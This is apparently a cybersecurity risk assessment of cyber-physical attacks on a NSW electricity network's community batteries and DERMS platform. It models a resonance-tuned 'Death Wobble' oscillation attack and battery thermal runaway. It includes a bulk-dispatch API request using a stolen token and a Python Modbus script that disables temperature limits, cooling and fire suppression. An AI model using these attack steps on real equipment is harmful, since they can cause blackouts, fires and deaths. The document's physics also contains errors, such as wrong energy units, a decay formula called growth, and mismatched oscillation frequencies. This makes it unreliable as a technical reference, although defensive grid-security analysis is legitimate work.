




## Cyber-Physical Attack Impact on NSW Electricity Network


Eigenia
**Cybersecurity Intelligence
February 12, 2026
Author:** J. McKenney
**Document ID:** EE-Eigenia-OTCE 1 HYPOTHESIS  Cascading Failure Scenarios

---

## Executive Summary

This assessment models cascading failure propagation from coordinated cyber-physical attacks targeting ACME Inc.'s distributed energy resource (DER) infrastructure. The analysis integrates findings from the BESS Architecture Vulnerability Assessment and the DERMS Security Architecture Review to quantify systemic risk across the NSW electricity network and its dependent critical infrastructure.

The central finding is that a coordinated "Death Wobble" oscillation attack (See j,mckenney's Death Wobble-The Grids Precarious Pulse Frequency Instability - jmckenney" a phenomenon extensively documented by McKenney (2024, 2025) in analysis of the South Australia 2016 blackout (6.1 Hz/s RoCoF), UK 2019 blackout (0.135 Hz/s relay trips), and Iberian Peninsula 2025 event (inter-area oscillations) -- executed through the Retailer API supply chain, can induce Rate of Change of Frequency (RoCoF) exceedances greater than 1.0 Hz/s under reduced-inertia grid conditions. This triggers protection relay cascades that propagate from a localized 8,000-customer outage to a regional blackout affecting 1.2 million customers within 120 minutes. Six interdependent critical infrastructure systems -- water, hospitals, telecommunications, transport, military, and financial services -- amplify the consequences into a multi-domain crisis with estimated economic impact between [investment required] million and [investment required] billion.

The probability of such an attack materializing within a 10-year horizon is assessed at 15-30% (MEDIUM), based on the convergence of vulnerable DERMS/API architecture, inadequate ICS protocol security, reduced grid inertia from renewable penetration, and demonstrated nation-state capability against energy infrastructure. Physical safety consequences range from 5 to 25 fatalities and 40 to 120 serious injuries, arising from thermal runaway events, traffic signal failures, medical infrastructure collapse, and delayed emergency services.

---

## Table of Contents

1. Executive Summary
2. Background and Context
3. Death Wobble Physics: Grid Frequency Dynamics
4. Cascade Propagation Modeling
5. Grid Interdependency Analysis
6. Economic Impact Assessment
7. Physical Safety Consequences
8. Attack Vector Analysis and Mitigation
9. Recovery Procedures
10. Strategic Recommendations
11. Conclusion
12. References
13. Appendices

---

## 1. Background and Context

### 1.1 Purpose and Scope

This document establishes the cascading failure risk profile for ACME Inc.'s DER infrastructure under coordinated cyber-physical attack conditions. It synthesizes vulnerability findings from EE-CTI-004 (BESS Architecture Vulnerability Assessment) and EE-CTI-005 (DERMS Security Architecture Review) into a comprehensive impact model spanning grid operations, interdependent infrastructure, economic consequences, and physical safety.

The scope encompasses the full ACME Inc. distribution network, including 54 community batteries (270 MW aggregate capacity), 278,622 controllable DER devices (1.07 GW), and the six critical infrastructure systems directly dependent on uninterrupted electricity supply within the service territory.

### 1.2 Threat Context

The Australian Energy Market Operator (AEMO) identifies grid frequency stability as the primary operational risk during the transition to high-renewable-penetration generation portfolios. As synchronous generation retires, system inertia declines from a historical constant of 4-6 seconds to 2-3 seconds during high-renewable periods. This reduction doubles the grid's sensitivity to rapid power imbalances, creating conditions where cyber-physical attacks against battery energy storage systems can trigger cascading failures that were physically impossible under the legacy generation mix.

McKenney's (2024, 2025) research across Australian, UK, European, and US interconnections establishes that this vulnerability is not theoretical but empirically demonstrated. His analysis of ERCOT (Texas) -- operating at 43% inverter-based resource capacity with peak renewable penetration >75% -- notes: "ERCOT's experience serves as a potential preview for other regions, demonstrating the intense interplay between resource adequacy, operational reliability under stress (especially weather extremes), and the critical need for robust performance from new technologies" (McKenney, 2024). The Western Interconnection (WECC) faces similar challenges with interconnection queue times averaging 5 years (up from <2 years in 2008) and "unexpected tripping of inverter-based resources during faults" documented in NERC alerts (McKenney, 2024).

Concurrent vulnerability assessments have identified an attack surface score of 8.7/10 across the BESS infrastructure and a DERMS risk score of 21/25 (CATASTROPHIC). The Retailer API, which provides third-party control of DER assets through the mPrest DERMS platform, lacks behavioral analytics, oscillation detection, and physics-based command validation -- the three controls that would prevent the "Death Wobble" attack scenario detailed in this document.

### 1.3 Regulatory Framework

This assessment is conducted under the requirements of:

- **Security of Critical Infrastructure Act 2018 (SOCI Act):** Mandatory risk management programs for critical infrastructure assets
- **Australian Energy Sector Cyber Security Framework (AESCSF):** Security Profile 2 (SP2) compliance obligations
- **IEC 62443:** Industrial automation and control systems security, zones and conduits model
- **NERC CIP:** Critical Infrastructure Protection standards for bulk electric systems (international reference)

Current compliance status: AESCSF SP2 at 32% (target 80%), IEC 62443 at 38% (target 80%). These gaps directly enable the cascading failure scenarios modeled in this document.

---

## 2. Death Wobble Physics: Grid Frequency Dynamics

### 2.1 Frequency Stability Fundamentals

The Australian electricity grid operates at a nominal frequency of 50 Hz. Grid frequency is a direct, real-time measure of the balance between power generation and power consumption. When generation exceeds load, frequency rises; when load exceeds generation, frequency falls.

The governing equations for grid frequency response are:

```
Grid Frequency: f = f_0 +/- delta_f
  where f_0 = 50 Hz (nominal), delta_f = deviation from power imbalance

Power Imbalance: delta_P = P_generation - P_load

Frequency Response: delta_f = delta_P / (D x S_base)
  where D = Load damping constant (approx 1.5%/Hz for Australian grid)
        S_base = System base power (approx 10,000 MVA for NSW region)

Rate of Change of Frequency (RoCoF): RoCoF = (1 / 2H) x delta_P
  where H = System inertia constant (seconds)
```

**[Based on McKenney (2024) Death Wobble analysis and AEMO grid parameters]**

The critical parameter is the system inertia constant H, which McKenney (2024) defines mathematically as:

```
H = (J × ω²) / (2S)

Where:
- J = moment of inertia (kg·m²)
- ω = nominal rotational speed (rad/s)
- S = generator MVA rating
- H = time (seconds) a generator could supply rated power from stored kinetic energy
```

Under traditional synchronous generation, H ranges from 4-6 seconds, providing substantial resistance to frequency disturbances. Under high-renewable conditions (30%+ inverter-based generation), H drops to 2-3 seconds -- a 50% reduction that doubles the RoCoF for any given power imbalance. As McKenney notes: "In a low-inertia system, the *same* disturbance (e.g., a large power plant loss) causes the frequency to change *much faster* than in a high-inertia system. This rapid frequency change *is* the dangerous 'wobble.'" (McKenney, 2024).

### 2.1.1 Grid Inertia Depletion Mechanics

The transition from synchronous generation to inverter-based resources fundamentally alters the grid's physical response to disturbances. Traditional synchronous generators provide inertia through massive rotating turbines and generators -- physical momentum that resists changes in rotational speed (and thus frequency). A 500 MW coal-fired generator with an H constant of 5.0 seconds stores approximately 2,500 MWh of kinetic energy in its rotating mass.

In contrast, inverter-based resources (solar PV, wind with full-power converters, battery energy storage systems) have **zero inherent inertia**. These devices use power electronics to convert DC power to AC, with no rotating mass coupled to the grid. While "synthetic inertia" or "virtual inertia" control algorithms can emulate inertial response through rapid power injection, this is fundamentally different from physical momentum:

**Physical Inertia (Synchronous Generators):**

- Instantaneous and automatic response (no delay)
- Governed by laws of physics (cannot be disabled by software)
- Proportional to rotating mass and rotational speed
- Provides bidirectional support (absorbs or releases energy)

**Synthetic Inertia (Inverter-Based Resources):**

- Requires frequency measurement, signal processing, and control action (10-100 millisecond delay)
- Dependent on software and control system availability (vulnerable to cyber manipulation)
- Limited by available headroom (cannot exceed device power rating)
- Can be disabled, misconfigured, or exploited through cyberattack

The implications for cascading failure risk are profound. McKenney's (2024) analysis of the South Australia 2016 blackout demonstrates how rapid inertia depletion creates cascading vulnerability:

```
South Australia September 28, 2016 - Inertia Timeline:

T-60 minutes: System inertia = 3,500 MWs (stable, 6 wind farms operational)
T-30 minutes: System inertia = 3,200 MWs (weather conditions deteriorating)
T-5 minutes:  System inertia = 2,800 MWs (multiple wind farm faults reducing output)
T-0 seconds:  445 MW wind generation loss (9 separate faults within 7 seconds)

RoCoF Response:
- With H = 2.8 seconds (actual pre-fault inertia): 6.1 Hz/s measured
- With H = 5.0 seconds (traditional inertia): 3.4 Hz/s theoretical
- Design assumption for protection relays: 3.0 Hz/s maximum

Outcome: 6.1 Hz/s RoCoF exceeded design assumptions by 2x, triggering:
- Under-frequency protection relay cascade
- Loss of Heywood Interconnector (SA-VIC link)
- Complete system black (state-wide blackout)
- 850,000 customers without power
```

This historical precedent establishes that RoCoF values can **exceed design assumptions by a factor of 2 under realistic grid conditions**. Protection relay manufacturers (ABB, Siemens, SEL) design under-frequency protection with assumed RoCoF limits of 1.0-3.0 Hz/s. When actual RoCoF reaches 6.1 Hz/s, relays designed for slower frequency decline can:

1. **Trip spuriously** when frequency passes through their setpoint too quickly to allow proper time delay
2. **Measure frequency incorrectly** due to zero-crossing detection errors at extreme RoCoF
3. **Operate in unintended sequences** as multiple protection stages activate simultaneously

### 2.1.2 Oscillation Frequency and Grid Resonance

Power systems exhibit mechanical and electrical resonance modes that can amplify oscillations under specific frequencies. These are distinct from electrical frequency (50 Hz) and represent slower inter-area oscillations between different parts of the grid.

**Electromechanical Oscillation Modes:**

The NSW grid exhibits three primary oscillation modes identified through modal analysis:

| Mode Type                 | Frequency Range | Physical Mechanism                                                 | Damping Ratio              |
| ------------------------- | --------------- | ------------------------------------------------------------------ | -------------------------- |
| **Local Mode**      | 0.8-2.0 Hz      | Single generator oscillating against rest of system                | 5-10% (well-damped)        |
| **Inter-Area Mode** | 0.3-0.8 Hz      | Groups of generators oscillating against each other                | 3-8% (lightly damped)      |
| **Control Mode**    | 0.1-0.3 Hz      | Interaction between generator governors and load frequency control | 10-15% (moderately damped) |

**Critical Finding:** The inter-area oscillation mode (0.3-0.8 Hz) has the lowest damping ratio and thus the highest susceptibility to resonant amplification. A coordinated BESS oscillation attack at 0.5 Hz frequency would align precisely with this natural resonance mode, producing cumulative amplitude growth through constructive interference.

The mathematical relationship for oscillation amplitude growth under resonant excitation is:

```
Amplitude Growth: A(t) = A_0 × e^(-ζωt) × sin(ω_d × t)

Where:
- A_0 = Initial disturbance amplitude (MW)
- ζ = Damping ratio (0.03-0.08 for inter-area modes)
- ω = Natural frequency (rad/s) = 2π × f_natural
- ω_d = Damped natural frequency ≈ ω × sqrt(1 - ζ²)
- t = Time since disturbance initiation (seconds)

For lightly damped systems (ζ < 0.1), amplitude growth can reach 5-10x initial disturbance
```

**Attack Optimization:**

An attacker with knowledge of grid resonance modes can optimize oscillation frequency to maximize amplitude growth. The optimal attack frequency is:

```
f_attack = f_natural × (1 + ε)

Where:
- f_natural = Inter-area mode natural frequency (0.5 Hz for NSW)
- ε = Small detuning factor (0.05-0.10) to prevent exact resonance deadband
- f_attack ≈ 0.5-0.55 Hz (one oscillation every 1.8-2.0 seconds)
```

This timing is well within the control bandwidth of BESS inverters, which can respond to charge/discharge commands in 50-200 milliseconds. The DERMS API command rate limiting (if present) is typically 1-5 seconds, allowing sustained oscillation at the target frequency.

### 2.2 Attack Mechanism: Coordinated BESS Oscillation

The "Death Wobble" attack exploits this reduced inertia by inducing coordinated charge/discharge oscillations across the community battery fleet.

**Attack Parameters:**

| Parameter                             | Value                  | Basis                              |
| ------------------------------------- | ---------------------- | ---------------------------------- |
| **Target Assets**               | 54 community batteries | Full fleet, 5 MW each              |
| **Total Controllable Capacity** | 270 MW                 | 54 x 5 MW                          |
| **Power Swing Magnitude**       | +/- 540 MW             | 270 MW charge to 270 MW discharge  |
| **Oscillation Frequency**       | 0.3-1.2 Hz             | Tuned to grid mechanical resonance |
| **Attack Duration**             | 15-30 minutes          | Time to trigger protection cascade |

### 2.2.1 BESS Synchronous Oscillation Attack Mechanics

The coordinated oscillation attack requires precise synchronization across all 54 community batteries to create coherent power swings. Unlike random or uncoordinated fluctuations that would tend to cancel out statistically, synchronized oscillation produces cumulative grid stress.

**Technical Implementation via Retailer API:**

The mPrest DERMS Retailer API (documented in EE-CTI-007) provides RESTful endpoints for third-party control of DER assets. A compromised retailer account with OAuth 2.0 credentials can issue mass dispatch commands:

```json
POST /api/v1/dispatch/bulk
Authorization: Bearer <compromised_oauth_token>
Content-Type: application/json

{
  "command_id": "oscillation_001",
  "target_assets": [
    "BESS_Bawley_Point_001",
    "BESS_Central_Coast_002",
    ... (52 additional BESS identifiers)
  ],
  "mode": "DISCHARGE",
  "power_setpoint_MW": 5.0,
  "duration_seconds": 60,
  "synchronize": true,
  "execute_at_utc": "2026-02-15T13:00:00Z"
}
```

**Current Control Gaps Enabling Attack:**

According to EE-CTI-007 (DERMS Security Architecture Review), the following controls are **absent**:

1. **No rate limiting on bulk dispatch commands** -- attacker can issue unlimited commands at maximum API bandwidth
2. **No behavioral analytics** -- no detection of unusual oscillation patterns or rapid charge/discharge cycling
3. **No physics-based validation** -- DERMS does not verify that commanded power changes are grid-safe based on current inertia and frequency conditions
4. **No dual authorization for large commands** -- single OAuth token sufficient to control entire 270 MW fleet
5. **No oscillation detection algorithm** -- no mathematical analysis of command frequency signatures

**Oscillation Waveform Mathematics:**

A simple attack waveform uses square-wave oscillation between full charge and full discharge:

```
Power Command Sequence (5 MW per BESS, 54 BESS total):

Cycle 1 (T+0 to T+60s):  All 54 BESS: CHARGE at 5 MW   → Grid sees +270 MW load
Cycle 2 (T+60 to T+120s): All 54 BESS: DISCHARGE at 5 MW → Grid sees -270 MW generation
Cycle 3 (T+120 to T+180s): All 54 BESS: CHARGE at 5 MW   → Grid sees +270 MW load
...
Cycle N: Continue until protection relay cascade triggers

Effective Frequency: 1 cycle / 120 seconds = 0.0083 Hz
```

However, this simple square wave is inefficient. A more sophisticated attack uses variable duty cycle to match grid resonance:

```
Optimized Attack Waveform (sinusoidal modulation):

P(t) = P_max × sin(2π × f_resonance × t)

Where:
- P_max = 270 MW (total BESS capacity)
- f_resonance = 0.5 Hz (inter-area mode natural frequency)
- t = time in seconds

Command Implementation:
- Sample waveform every 10 seconds
- Issue power setpoint commands matching sampled value
- Synchronize all 54 BESS to same phase angle
```

This produces smoother oscillation that is harder to detect through simple statistical methods and aligns more precisely with grid resonance modes for maximum amplification.

### 2.2.2 Geographic Clustering for Localized Impact

While the full 54-battery fleet produces maximum power swing magnitude, geographic clustering allows targeted attack on specific transmission corridors or substations.

**Scenario Analysis: Sydney Metropolitan Cluster:**

18 community batteries are deployed within 25 km of Sydney CBD:



**Localized Attack Impact:**

An attacker targeting only the Sydney Metro cluster (18 BESS, 90 MW total) can create localized transmission corridor stress:

```
Sydney West Terminal Power Flow Analysis:

Normal Operation:
- Canterbury + Parramatta clusters: 55 MW injection during peak solar
- Transmission line thermal rating: 450 MVA @ 132 kV = 600 MW
- Power flow: 380 MW (63% of rating, stable)

During Attack (coordinated discharge):
- T+0 to T+60s:   All 18 BESS charging → 90 MW additional load
- Transmission flow: 380 + 90 = 470 MW (78% of rating)

- T+60 to T+120s: All 18 BESS discharging → 90 MW generation
- Transmission flow: 380 - 90 = 290 MW (48% of rating)

Power Swing: 180 MW every 2 minutes (0.5 Hz oscillation)
```

This 180 MW power swing, while smaller than the full 540 MW fleet capability, is concentrated on a single transmission corridor. After 10-15 oscillation cycles (20-30 minutes), cumulative stress can trigger:

1. **Transmission line thermal overload protection** (even though peak flow is below rating, rapid cycling causes thermal stress)
2. **Transformer differential protection** (rapid power swings appear as internal faults to differential relays)
3. **Under-frequency load shedding** in adjacent zones (as Sydney West Terminal capacity is constrained)

**RoCoF Threshold Analysis:**

The AEMO standard for RoCoF tolerance is 1.0 Hz/s. Protection relays are configured to trip when RoCoF exceeds this threshold for more than 100 milliseconds. McKenney (2024) documents critical RoCoF thresholds based on international case studies:

| RoCoF Value             | System Response                        | Historical Precedent                           |
| ----------------------- | -------------------------------------- | ---------------------------------------------- |
| < 0.1-0.2 Hz/s          | Historically normal under high inertia | Traditional grid operations                    |
| 0.125-0.135 Hz/s        | UK 2019 relay trip threshold           | UK August 9, 2019 blackout                     |
| > 1 Hz/s (500ms window) | Protection system maloperation likely  | ENTSO-E warnings                               |
| 6 Hz/s                  | Extreme instability                    | South Australia Sept 28, 2016 (design: 3 Hz/s) |

McKenney explicitly warns: "Experts explicitly warn that RoCoF values above 1 Hz/s (measured over 500ms) may be unmanageable by current system protections, potentially leading to fast grid collapse" (McKenney, 2024).

**[RESEARCH GAP: Actual RoCoF tolerance of ACME Inc. grid requires dynamic stability study with AEMO. Estimated cost: [investment required]. Current analysis uses AEMO standard thresholds as conservative baseline.]**

Under the reduced-inertia scenario:

```
Critical Power Imbalance = 2H x RoCoF_max x S_base
  = 2 x 3 x 1 x 10,000 = 60,000 MW-seconds

Attack capability: 540 MW swing = 2.7% of critical threshold (single oscillation)
```

A single oscillation cycle does not exceed the RoCoF threshold. However, sustained oscillation at frequencies matching the grid's electromechanical resonance (0.3-1.2 Hz) produces cumulative amplitude growth. After 10-15 oscillation cycles over approximately 10 minutes, frequency deviation amplitude exceeds +/- 0.15 Hz, triggering under-frequency protection relays at the 49.85 Hz threshold.

### 2.3 Why Reduced Inertia Creates Vulnerability

McKenney (2024, 2025) identifies four pathways by which low inertia accelerates cascading failures:

1. **Amplified Initial Shock**: Lower inertia = less kinetic energy buffering, resulting in faster, deeper frequency deviation from the same disturbance (mathematical relationship: ΔF ∝ 1/H)
2. **Protection System Errors**: High RoCoF triggers spurious trips of healthy equipment. McKenney (2024) cites the UK 2019 event where 345 MW of distributed generation tripped at 0.135 Hz/s (relay threshold: 0.125 Hz/s), and notes that NERC data indicates ~70% of major disturbances involve protection system issues.
3. **Faster Escalation**: Under-Frequency Load Shedding (UFLS) activates more quickly, generator self-protection trips accelerate, and control systems are outpaced by rapid frequency changes.
4. **Increased Complexity**: Legacy systems + new inverter-based resource behaviors + novel load types create unexpected interactions. McKenney (2025) highlights the July 2024 Eastern Interconnection event where a 1,500 MW data center simultaneously disconnected, noting that "power systems have historically been planned and operated to withstand the loss of large *generators*, not the sudden, simultaneous loss of large *loads*."

The following table illustrates how the same 540 MW attack produces different consequences depending on the grid's inertia condition:

| Grid Condition                   | Inertia (H) | RoCoF per 540 MW Swing | Cycles to Relay Trip | Attack Outcome            |
| -------------------------------- | ----------- | ---------------------- | -------------------- | ------------------------- |
| Traditional (90% synchronous)    | 5 seconds   | 0.0036 Hz/s            | >100 (impractical)   | No cascading failure      |
| Transitional (60% synchronous)   | 3.5 seconds | 0.0051 Hz/s            | 45-60                | Marginal risk             |
| High-Renewable (30% synchronous) | 2.5 seconds | 0.0072 Hz/s            | 15-25                | Protection cascade likely |
| Minimum-Inertia Event            | 2.0 seconds | 0.009 Hz/s             | 8-12                 | Cascade within 10 minutes |

The grid does not need to be at minimum inertia for the attack to succeed. Any period where H falls below 3.0 seconds creates conditions where sustained oscillation can trigger the protection cascade within the 15-30 minute attack window. AEMO data indicates that H drops below 3.0 seconds during approximately 15-20% of operational hours in 2025-2026, primarily during midday solar peaks and overnight low-demand periods.

**International Precedents Supporting Death Wobble Risk:**

McKenney's (2024, 2025) comprehensive analysis of three major blackouts demonstrates how declining inertia transforms grid vulnerability:

1. **South Australia (September 28, 2016)**: 48.36% inverter-based resource penetration, 445 MW wind generation loss, **peak RoCoF of 6.1 Hz/s** (design assumption: 3 Hz/s) -- demonstrating that actual RoCoF can exceed design assumptions by 2x. McKenney notes: "This incident demonstrated the potential for extreme instability in very low inertia conditions... highlighting the direct impact of RoCoF sensitivity in a system with significant wind penetration."
2. **UK Blackout (August 9, 2019)**: Lightning strike triggered cascading losses (660 MW gas + 740 MW wind). **345 MW of distributed generation tripped spuriously** when RoCoF reached 0.135 Hz/s (relay threshold: 0.125 Hz/s) -- demonstrating protection system maloperation even at moderate RoCoF. System inertia: 210 GW·s at ~30% wind penetration.
3. **Iberian Peninsula (April 28, 2025)**: 60 million people affected (Spain + Portugal), up to 10 hours outage, 56% renewable penetration. Suspected inter-area oscillations between Iberia and Continental Europe due to weak interconnection (~2,800 MW, only 6% of Spanish capacity). McKenney observed: "Two significant inter-area oscillations in 30 minutes pre-blackout" and noted the event validated his warnings from the Chicago Conference on Grid Stability earlier that year.

### 2.3 BESS Thermal Runaway Cascading Scenarios

Battery thermal runaway represents a distinct attack vector with potential for **physical cascading failure** beyond electrical grid disruption. Unlike the Death Wobble oscillation attack (which targets grid frequency stability), thermal runaway attacks exploit battery management system (BMS) vulnerabilities to induce fires or explosions.

### 2.3.1 Lithium-Ion Thermal Runaway Physics

Lithium-ion batteries store tremendous energy density (150-250 Wh/kg) in chemically reactive materials. When cell temperature exceeds safe limits, a self-sustaining exothermic reaction begins:

**Thermal Runaway Progression:**

```
Stage 1: Initial Heating (120-130°C)
- Solid Electrolyte Interphase (SEI) decomposition begins
- Heat generation: 100-200 J/g
- Timeline: 5-15 minutes from thermal abuse initiation

Stage 2: Separator Melting (130-150°C)
- Polyethylene or polypropylene separator melts
- Internal short circuit develops between anode and cathode
- Heat generation: 300-500 J/g
- Timeline: 2-5 minutes

Stage 3: Electrolyte Decomposition (150-180°C)
- Organic carbonate electrolytes decompose
- Flammable gas release (CO, CO₂, hydrocarbons)
- Heat generation: 800-1,200 J/g
- Timeline: 1-3 minutes

Stage 4: Cathode Material Decomposition (180-250°C)
- Metal oxide cathode releases oxygen (LiCoO₂, NMC chemistries)
- Self-sustaining combustion begins
- Heat generation: 1,500-2,500 J/g
- Timeline: <1 minute to full thermal runaway

Stage 5: Propagation (250-400°C)
- Thermal propagation to adjacent cells
- Cell-to-cell timeline: 30 seconds to 15 minutes (geometry dependent)
- Container-level fire: 4-12 hours total energy release
```

**Attack Vector: Modbus Injection to BMS Controllers:**

As detailed in EE-CTI-002 (Bawley Point Vulnerability Assessment) and EE-CTI-003 (Protocol-Level Threats), the BESS control architecture exhibits CRITICAL vulnerabilities:

| Vulnerability ID     | Description                        | CVSS | Exploitation Method                                                                                |
| -------------------- | ---------------------------------- | ---- | -------------------------------------------------------------------------------------------------- |
| **V-001**      | Modbus TCP Plaintext Communication | 9.1  | Man-in-the-middle command injection between SwitchDin Utility Server and Vendor RTU                |
| **V-004**      | Unmanaged Vendor 4G/5G Connections | 8.8  | Direct internet access to BESS controllers bypassing all ACME Inc. security controls               |
| **FrostyGoop** | Weaponized Modbus Function Code 6  | 10.0 | Write Single Register command to thermal setpoint registers (demonstrated in Ukraine January 2024) |

**FrostyGoop Attack Adaptation for BESS:**

The FrostyGoop malware (discovered by Dragos in April 2024, analyzed in EE-CTI-003) demonstrated the first Modbus-specific ICS attack causing physical damage. The Ukrainian heating system attack manipulated thermal setpoints via Modbus Function Code 6 (Write Single Register), causing 100,000 residents to lose heat for 48 hours.

An identical attack vector threatens ACME Inc. BESS infrastructure:

```python
# FrostyGoop-style BESS thermal runaway attack (ANALYSIS ONLY)
# Based on Eigenia-OTCE-EAB-009 technical analysis

modbus_client = ModbusClient(target_ip="10.50.1.100", port=502)
modbus_client.connect()

# Phase 1: Disable overtemperature protection (Function Code 6)
modbus_client.write_register(
    address=0x1000,  # Cell temperature limit register
    value=0x00FF,    # 255°C (far exceeds safe limit of 60°C for lithium-ion)
    unit=1
)

# Phase 2: Force overcharge to exceed 4.5V/cell (Function Code 16)
modbus_client.write_multiple_registers(
    starting_address=0x2000,
    values=[0x46F5, 0x46F5, 0x46F5],  # 4.5V per cell (safe max: 3.65V)
    unit=1
)

# Phase 3: Disable cooling system (Function Code 5)
modbus_client.write_coil(
    coil_address=0x0001,  # HVAC cooling enable
    value=False,           # Disable
    unit=1
)

# Phase 4: Disable fire suppression pre-arming (Function Code 5)
modbus_client.write_coil(
    coil_address=0x0010,  # Fire suppression system enable
    value=False,           # Disable
    unit=1
)

# Timeline to thermal runaway:
# T+15 minutes: Cells reach 120°C (SEI decomposition)
# T+30 minutes: Cells reach 150°C (separator melting)
# T+45 minutes: Thermal runaway initiated
# T+60 minutes: Cell-to-cell propagation begins
# T+2-4 hours: Full container fire
```

### 2.3.2 Multi-Site Thermal Cascade Scenario

**Attack Scenario: Coordinated Thermal Runaway Across 54 BESS Sites**

An attacker with access to the SwitchDin Utility Server (Zone 3) or compromised Retailer API credentials can issue simultaneous Modbus commands to all 54 community battery sites.

**Cascading Timeline:**

